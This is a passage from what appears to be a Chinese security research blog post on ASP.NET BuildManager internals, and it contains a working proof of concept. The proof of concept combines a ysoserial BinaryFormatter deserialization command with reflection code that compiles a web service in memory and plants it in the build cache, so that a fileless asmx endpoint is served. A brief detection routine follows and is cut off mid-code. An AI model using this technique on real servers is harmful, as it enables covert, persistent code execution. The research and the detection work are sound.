



可以看到，这里 `Internal` 中有 11 个 `Assembly`，指向了我当前站点根目录中的 11 个 DLL



在 Values 字段中，其保存了站点根目录中 `Web.config` 中的内容，我这里默认的站点，没有进行任何配置  



```
<?xml version="1.0" encoding="utf-8"?>
<!--
  有关如何配置 ASP.NET 应用程序的详细信息，请访问
  https://go.microsoft.com/fwlink/?LinkId=169433
-->
<configuration>
  <system.web>
    <compilation targetFramework="4.7.2" />
    <httpRuntime targetFramework="4.7.2" />
    <pages>
      <namespaces>
        <add namespace="System.Web.Optimization" />
      </namespaces>
      <controls>
        <add assembly="Microsoft.AspNet.Web.Optimization.WebForms" namespace="Microsoft.AspNet.Web.Optimization.WebForms" tagPrefix="webopt" />
      </controls>
    </pages>
  </system.web>
  <runtime>
    <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
      <dependentAssembly>
        <assemblyIdentity name="Antlr3.Runtime" publicKeyToken="eb42632606e9261f" />
        <bindingRedirect oldVersion="0.0.0.0-3.5.0.2" newVersion="3.5.0.2" />
      </dependentAssembly>
      <dependentAssembly>
        <assemblyIdentity name="Microsoft.Web.Infrastructure" publicKeyToken="31bf3856ad364e35" />
        <bindingRedirect oldVersion="0.0.0.0-2.0.0.0" newVersion="2.0.0.0" />
      </dependentAssembly>
      <dependentAssembly>
        <assemblyIdentity name="Newtonsoft.Json" publicKeyToken="30ad4fe6b2a6aeed" />
        <bindingRedirect oldVersion="0.0.0.0-13.0.0.0" newVersion="13.0.0.0" />
      </dependentAssembly>
      <dependentAssembly>
        <assemblyIdentity name="WebGrease" publicKeyToken="31bf3856ad364e35" />
        <bindingRedirect oldVersion="0.0.0.0-1.6.5135.21930" newVersion="1.6.5135.21930" />
      </dependentAssembly>
    </assemblyBinding>
  </runtime>
  <system.codedom>
    <compilers>
      <compiler language="vb;vbs;visualbasic;vbscript" extension=".vb" type="Microsoft.CodeDom.Providers.DotNetCompilerPlatform.VBCodeProvider, Microsoft.CodeDom.Providers.DotNetCompilerPlatform, Version=2.0.1.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" warningLevel="4" compilerOptions="/langversion:default /nowarn:41008 /define:_MYTYPE=\&quot;Web\&quot; /optionInfer+" />
    </compilers>
  </system.codedom>
</configuration>
<!--ProjectGuid: 2FF8E25F-7411-4334-8E81-E7FB6F35A1D4-->
```

在多提一个，系统所有默认自带的 `Handler` 和 `Module` 也在系统的 `web.config`



到这里，配置文件就完成了解析

##### GetReferencedAssemblies

读取完配置文件后，这里创建了很重要的点，就是构建了 `ReferencedAssemblies`，这里很简单，就是取出前面 `Assemblies` 字段中的内容,然后 `Load` 所有包括 `AssemblyInternal` 中的内容，但是这里可以看到，在创建时 Set 时，会调用 `BuildManager` 中的 `TopLevelReferencedAssemblies`

```
internal static ICollection GetReferencedAssemblies(CompilationSection compConfig)
{
    AssemblySet assemblySet = AssemblySet.Create(BuildManager.TheBuildManager.TopLevelReferencedAssemblies);
    foreach (object obj in compConfig.Assemblies)
    {
        AssemblyInfo assemblyInfo = (AssemblyInfo)obj;
        Assembly[] array = assemblyInfo.AssemblyInternal;
        if (array == null)
        {
            lock (compConfig)
            {
                array = assemblyInfo.AssemblyInternal;
                if (array == null)
                {
                    array = (assemblyInfo.AssemblyInternal = compConfig.LoadAssembly(assemblyInfo));
                }
            }
        }
        for (int i = 0; i < array.Length; i++)
        {
            if (array[i] != null)
            {
                assemblySet.Add(array[i]);
            }
        }
    }
    foreach (Assembly assembly in BuildManager.s_dynamicallyAddedReferencedAssembly)
    {
        assemblySet.Add(assembly);
    }
    return assemblySet;
}
```

这个 `TopLevelReferencedAssemblies` 在 `BuildManager` 初始化构建时进行了赋值，取出了 `HttpRuntime` 和 `Component` 的所有子类，这里其实就是 `System.Web` 和 `System`

```
private List<Assembly> _topLevelReferencedAssemblies = new List<Assembly>
{
    typeof(HttpRuntime).Assembly,
    typeof(Component).Assembly
};
```

还有在编译 `CodeDirectory` 和 `Global` 中进行了添加，`CodeDirectory` 中会去找对应的 `Assembly`





这些 `Assembly` 构成了 `ReferencedAssemblies`

到这里就成功构建了 `ProvidersCompiler`

#### CreateBuildProvider

接下来会进入 `CreateBuildProvider` 中，会根据 `asmx` 后缀取出一个 `WebServiceBuildProvider`，然后对其进行实例化，设置对应的 `VirtualPath` 和 `ReferencedAssemblies`

```
internal static BuildProvider CreateBuildProvider(VirtualPath virtualPath, BuildProviderAppliesTo neededFor, CompilationSection compConfig, ICollection referencedAssemblies, bool failIfUnknown)
{
    string extension = virtualPath.Extension;
    Type buildProviderTypeFromExtension = CompilationUtil.GetBuildProviderTypeFromExtension(compConfig, extension, neededFor, failIfUnknown);
    if (buildProviderTypeFromExtension == null)
    {
        return null;
    }
    object obj = HttpRuntime.CreatePublicInstanceByWebObjectActivator(buildProviderTypeFromExtension);
    BuildProvider buildProvider = (BuildProvider)obj;
    buildProvider.SetVirtualPath(virtualPath);
    buildProvider.SetReferencedAssemblies(referencedAssemblies);
    return buildProvider;
}
```

#### PerformBuild

创建好 `BuildProvider` 后，会进入对应的 `PerformBuild` 方法，首先会创建 `Providers`，然后调用其 `Compile` 方法

```
internal CompilerResults PerformBuild()
{
    this.ProcessBuildProviders();
    if (this._satelliteAssemblyBuilders != null)
    {
        int num = Math.Min(this._satelliteAssemblyBuilders.Count, CompilationUtil.MaxConcurrentCompilations);
        try
        {
            IEnumerable<AssemblyBuilder> enumerable = this._satelliteAssemblyBuilders.Values.Cast<AssemblyBuilder>();
            ParallelOptions parallelOptions = new ParallelOptions();
            parallelOptions.MaxDegreeOfParallelism = num;
            Parallel.ForEach<AssemblyBuilder>(enumerable, parallelOptions, delegate(AssemblyBuilder assemblyBuilder)
                                              {
                                                  assemblyBuilder.Compile();
                                              });
        }
        catch (AggregateException ex)
        {
            ExceptionDispatchInfo.Capture(ex.GetBaseException()).Throw();
        }
    }
    if (this._assemblyBuilder != null)
    {
        return this._assemblyBuilder.Compile();
    }
    return null;
}
```

首先会根据前面生成的 `WebService` 得到对应 `compilerType` 为 `CSharpCodeProvider`，然后进行创建

```
private void ProcessBuildProviders()
{
    CompilerType compilerType = null;
    BuildProvider buildProvider = null;
    ...
        ArrayList arrayList = null;
    foreach (object obj in this._buildProviders)
    {
        BuildProvider buildProvider2 = (BuildProvider)obj;
        buildProvider2.SetReferencedAssemblies(this._referencedAssemblies);

        ...

            CompilerType compilerTypeFromBuildProvider = BuildProvider.GetCompilerTypeFromBuildProvider(buildProvider2);

        ...
            buildProvider = buildProvider2;
        compilerType = compilerTypeFromBuildProvider;
        this._assemblyBuilder = compilerType.CreateAssemblyBuilder(this.CompConfig, this._referencedAssemblies, this._generatedFilesDir, this.OutputAssemblyName);
    }
}
```

最后调用到 `AssemblyBuilder.Compile` 方法，但是这个过程中，没有对应的 `SourceFile`，所以直接返回，如果设置了则会调用前面的 `CSharpCodeProvider` 进行编译

```
internal CompilerResults Compile()
{
    if (this._sourceFiles.Count == 0 && this._embeddedResourceFiles == null)
    {
        return null;
    }
    ...
    }
```

#### GetBuildResult

前面没有进行编译，直接返回了 `Null`，则 `compilerResults` 为 `Null`，然后进入到 `buildProvider` 即前面的 `WebServiceBuildProvider` 的 `GetBuildResult`

```
internal virtual BuildResult CreateBuildResult(CompilerResults results)
{
    if (this.flags[2])
    {
        return null;
    }
    if (!BuildManagerHost.InClientBuildManager && results != null)
    {
        Assembly compiledAssembly = results.CompiledAssembly;
    }
    Type generatedType = this.GetGeneratedType(results);
    BuildResult buildResult;
    if (generatedType != null)
    {
        BuildResultCompiledType buildResultCompiledType = this.CreateBuildResult(generatedType);
        if (!buildResultCompiledType.IsDelayLoadType && (results == null || generatedType.Assembly != results.CompiledAssembly))
        {
            buildResultCompiledType.UsesExistingAssembly = true;
        }
        buildResult = buildResultCompiledType;
    }
    else
    {
        string customString = this.GetCustomString(results);
        if (customString != null)
        {
            buildResult = new BuildResultCustomString(this.flags[32] ? results.CompiledAssembly : null, customString);
        }
        else
        {
            if (results == null)
            {
                return null;
            }
            buildResult = new BuildResultCompiledAssembly(results.CompiledAssembly);
        }
    }
    int num = (int)this.GetResultFlags(results);
    if (num != 0)
    {
        num &= 65535;
        buildResult.Flags |= num;
    }
    return buildResult;
}
```

`GetGeneratedType` 最后会调用到 `GetType`，然后从 `referencedAssemblies` 中找到对应的类

```
private Type GetType(string typeName)
{
    Type type;
    if (Util.TypeNameContainsAssembly(typeName))
    {
        try
        {
            type = Type.GetType(typeName, true);
        }
        catch (Exception ex)
        {
            throw new HttpParseException(null, ex, this._virtualPath, this._sourceString, this._lineNumber);
        }
        return type;
    }
    type = Util.GetTypeFromAssemblies(this._referencedAssemblies, typeName, false);
    if (type != null)
    {
        return type;
    }
    type = Util.GetTypeFromAssemblies(this._linkedAssemblies, typeName, false);
    if (type != null)
    {
        return type;
    }
    throw new HttpParseException(SR.GetString("Could_not_create_type", new object[] { typeName }), null, this._virtualPath, this._sourceString, this._lineNumber);
}
```

# 结论

所以最后其实是从 `Reference` 中找对应的类，即系统默认的一些和 `bin` 目录下的，所以加载到内存中的自然找不到

# 升级利用

在 GetVPathBuildResultInternal 第一行就可以看到，会首先从缓存中取出对应的类，如果我们构造一个缓存是否可以绕过

```
private BuildResult GetVPathBuildResultInternal(VirtualPath virtualPath, bool noBuild, bool allowCrossApp, bool allowBuildInPrecompile, bool throwIfNotFound, bool ensureIsUpToDate = true)
{
    BuildResult buildResult = this.GetVPathBuildResultFromCacheInternal(virtualPath, ensureIsUpToDate);
```

在 `CompileWebFile` 中，可以看到如下简化代码，最后会调用方法将 `buildResult` 和 `virtualPath` 进行缓存，那么重点就是构建 `buildResult`

所以模拟上面的执行即可，其需要传入一个 `CompilerResult`，还记的最前面的 `CSharpCodeProvider` 的返回值吗，正好就是 `CompilerResult`，所以我们不需要让他编译，我们自己编译好，调用 `buildProvider` 去生成 `buildResult` 即可

```
BuildProvidersCompiler buildProvidersCompiler = new BuildProvidersCompiler(virtualPath, text2);
BuildProvider buildProvider = BuildManager.CreateBuildProvider(virtualPath, buildProvidersCompiler.CompConfig, buildProvidersCompiler.ReferencedAssemblies, true);
buildProvidersCompiler.SetBuildProviders(new SingleObjectCollection(buildProvider));
try
{
    CompilerResults compilerResults = buildProvidersCompiler.PerformBuild();
    buildResult = buildProvider.GetBuildResult(compilerResults);
}
this.CacheVPathBuildResultInternal(virtualPath, buildResult, utcNow);
```

### 构造

在上面 `GetBuildResult` 中，会调用 `GetGeneratedType`，而这里的 This 是之前生成的 `SimpleHandlerBuildProvider`

```
Type generatedType = this.GetGeneratedType(results);
```

其中需要一个 `Parser`，这里是 `WebServiceParser`，然后调用 `parser.GetType`，需要设置 `_parser` 为对应对象



如果这里 `builtAssembly` 为空，则会调用到 `parser.GetType`，即 `GetBuildResult` 中最后的 `GetType`，会从 `Reference` 中取对应的类，这必然是没有的，所以要让上面 `parser.HasInlineCode` 为 `True`，让 `CompilerResult` 中的 `Assembly` 传入，从编译的类中找对应的类型，所以给 `_sourceString` 随便设置以个空字符串即可，还要设置对应的 `_typeName`





## PoC

最后构造的 `PoC` 如下，反序列化可直接放入 `G` 中进行利用，本地尝试成功利用

```
./ysoserial.exe -f binaryformatter -g XamlAssemblyLoadFromFile -c "./payload.cs;./dlls/System.dll;./dlls/System.Web.dll;System.Core.dll;System.Configuration.dll"
```

```
List<string> s = new List<string>();
StringBuilder stringBuilder = new StringBuilder();
stringBuilder.Append("using System.Web;");
stringBuilder.Append("
");
stringBuilder.Append("using TrySpawnDll;
");
stringBuilder.Append("namespace sp");
stringBuilder.Append("
");
stringBuilder.Append("{");
stringBuilder.Append("
");
stringBuilder.Append("[System.Serializable]");
stringBuilder.Append("
");
stringBuilder.Append("public class sp : Class2");
stringBuilder.Append("{");
stringBuilder.Append("public sp() { string a = "Hello World"; }");
stringBuilder.Append("
");
stringBuilder.Append("}");
stringBuilder.Append("
");
stringBuilder.Append("}");
stringBuilder.Append("
");
s.Add(stringBuilder.ToString());

StringBuilder stringBuilder1 = new StringBuilder();
stringBuilder1.Append("using System.Web;
");
stringBuilder1.Append("namespace ");
stringBuilder1.Append("spd
");
stringBuilder1.Append("{
");
stringBuilder1.Append("[System.Web.Services.WebService(Namespace = "http://tempuri.org/")]
");
stringBuilder1.Append("[System.Web.Services.WebServiceBinding(ConformsTo = System.Web.Services.WsiProfiles.BasicProfile1_1)]
");
stringBuilder1.Append("[System.ComponentModel.ToolboxItem(false)]
");
stringBuilder1.Append("public class ");
stringBuilder1.Append("gWebService");
stringBuilder1.Append(" : System.Web.Services.WebService
");
stringBuilder1.Append("{
");
stringBuilder1.Append("[System.Web.Services.WebMethod]
");
stringBuilder1.Append("public string gdll()
");
stringBuilder1.Append("{
");
stringBuilder1.Append("return "Hello World";
");
stringBuilder1.Append("}
");
stringBuilder1.Append("}
");
stringBuilder1.Append("}
");
s.Add(stringBuilder1.ToString());

CompilerResults compilerResults;
using (Microsoft.CSharp.CSharpCodeProvider cSharpCodeProvider = new Microsoft.CSharp.CSharpCodeProvider())
{
    CompilerParameters compilerParameters = new CompilerParameters();
    compilerParameters.GenerateInMemory = true;
    compilerParameters.GenerateExecutable = false;
    compilerParameters.CompilerOptions = "/optimize";
    compilerParameters.IncludeDebugInformation = false;
    compilerParameters.OutputAssembly = "";
    compilerParameters.ReferencedAssemblies.Add("System.dll");
    compilerParameters.ReferencedAssemblies.Add("System.Web.dll");
    compilerParameters.ReferencedAssemblies.Add("System.Web.Services.dll");
    compilerParameters.ReferencedAssemblies.Add(System.Web.HttpContext.Current.Server.MapPath("~") + "/bin/TrySpawnDll.dll");
    compilerResults = cSharpCodeProvider.CompileAssemblyFromSource(compilerParameters, s.ToArray());
    if (compilerResults.Errors.HasErrors)
    {
        StringBuilder stringBuilder2 = new StringBuilder();
        if (compilerResults.Errors != null)
        {
            foreach (object obj0 in compilerResults.Errors)
            {
                CompilerError compilerError = (CompilerError)obj0;
                if (!compilerError.IsWarning)
                {
                    stringBuilder2.Append(compilerError.ErrorText);
                }
            }
        }
        return stringBuilder2.ToString();
    }
}


Type a = typeof(System.Web.Compilation.BuildProvider);
Assembly assembly = a.Assembly;

Type virtualPathType = assembly.GetType("System.Web.VirtualPath");
MethodInfo getVirtualPathMethod = virtualPathType.GetMethod("Create", new Type[] { typeof(string) });
object virtualPath = getVirtualPathMethod.Invoke(null, new object[] { "/spd.asmx" });

//System.Web.Compilation.BuildProviderCompiler
Type type = assembly.GetType("System.Web.Compilation.BuildProvidersCompiler");
ConstructorInfo constructor = type.GetConstructor(BindingFlags.NonPublic | BindingFlags.Instance, null, new Type[] { virtualPathType, typeof(string) }, null);
object obj1 = constructor.Invoke(new object[] { virtualPath, "aaaaaaa" });

FieldInfo fieldInfo1 = type.GetField("_compConfig", BindingFlags.NonPublic | BindingFlags.Instance);
FieldInfo fieldInfo2 = type.GetField("_referencedAssemblies", BindingFlags.NonPublic | BindingFlags.Instance);

object fobj1 = fieldInfo1.GetValue(obj1);
object fobj2 = fieldInfo2.GetValue(obj1);

MethodInfo methodInfo = typeof(System.Web.Compilation.BuildManager).GetMethod("CreateBuildProvider", BindingFlags.NonPublic | BindingFlags.Static, null, new Type[] { virtualPathType, typeof(CompilationSection), typeof(System.Collections.ICollection), typeof(bool) }, null);
object obj2 = methodInfo.Invoke(null, new object[] { virtualPath, fobj1, fobj2, true });

Type type1 = assembly.GetType("System.Web.Compilation.SimpleHandlerBuildProvider");
FieldInfo fieldInfo = type1.GetField("_parser", BindingFlags.NonPublic | BindingFlags.Instance);
ConstructorInfo constructorInfo = typeof(WebServiceParser).GetConstructor(BindingFlags.NonPublic | BindingFlags.Instance, null, new Type[] { typeof(string) }, null);
WebServiceParser webServiceParser = (WebServiceParser)constructorInfo.Invoke(new object[] { "/spd.asmx" });

//spd.gWebService
FieldInfo fieldInfo3 = typeof(SimpleWebHandlerParser).GetField("_typeName", BindingFlags.NonPublic | BindingFlags.Instance);
fieldInfo3.SetValue(webServiceParser, "spd.gWebService");

FieldInfo fieldInfo4 = typeof(SimpleWebHandlerParser).GetField("_sourceString", BindingFlags.NonPublic | BindingFlags.Instance);
fieldInfo4.SetValue(webServiceParser, " ");

fieldInfo.SetValue(obj2, webServiceParser);

MethodInfo methodInfo1 = typeof(System.Web.Compilation.BuildProvider).GetMethod("GetBuildResult", BindingFlags.NonPublic | BindingFlags.Instance);
object obj3 = methodInfo1.Invoke(obj2, new object[] { compilerResults });

FieldInfo _theBuildManagerField = typeof(BuildManager).GetField("_theBuildManager", BindingFlags.Static | BindingFlags.NonPublic);
object buildManagerObj = _theBuildManagerField.GetValue(null);

MethodInfo methodInfo2 = typeof(BuildManager).GetMethod("CacheVPathBuildResultInternal", BindingFlags.NonPublic | BindingFlags.Instance);
object obj = methodInfo2.Invoke(buildManagerObj, new object[] { virtualPath, obj3, DateTime.UtcNow });
```

## 意外

原本以为必须有对应的 `asmx` 才能进行访问，但是这个 `asmx` 只有在后面的 `parser` 里面用到了，则如果前面有了缓存，则完全不需要对应的 `asmx`



# 检测

对于这个检测，其实就是列出所有 `cache` 即可，然后发现对应的 `key` 则使用方法从 `cache` 中删除对应的缓存

这部分就是反射获取缓存然后调用方法删除，比较简单

```
public string test1(string s)
{
    FieldInfo _theBuildManagerField = typeof(BuildManager).GetField("_theBuildManager", BindingFlags.Static | BindingFlags.NonPublic);
    object buildManagerObj = _theBuildManagerField.GetValue(null);

    FieldInfo _memoryCache = typeof(BuildManager).GetField("_caches", BindingFlags.NonPublic | BindingFlags.Instance);
    object memorycache = _memoryCache.GetValue(buildManagerObj);

    FieldInfo _internalCache = HttpRuntime.Cache.GetType().GetField("_internalCache", BindingFlags.NonPublic | BindingFlags.Static);
    object internalCache = _internalCache.GetValue(null);

    Type a = typeof(System.Web.Compilation.BuildProvider);
    Assembly assembly = a.Assembly;
    Type type = assembly.GetType("System.Web.Caching.AspNetCache");
    MethodInfo methodInfo = type.GetMethod("GetEnumerator");
    IDictionaryEnumerator obj = (IDictionaryEnumerator)methodInfo.Invoke(internalCache, new object[] { });

    //System.Web.Compilation.BuildResultCompiledType
    Type type1 = assembly.GetType("System.Web.Compilation.BuildResultCompiledType");
    FieldInfo fieldInfo = type1.GetField("_builtType", BindingFlags.NonPublic | BindingFlags.Instance);
    using (StreamWriter streamWriter = new StreamWriter("D:\Project\DotNet\TryTryTryTry\TryTryTryTry\result.txt"))
    {
        while (obj.MoveNext())
        {
            if (obj.Value.GetType() == type1)
            {
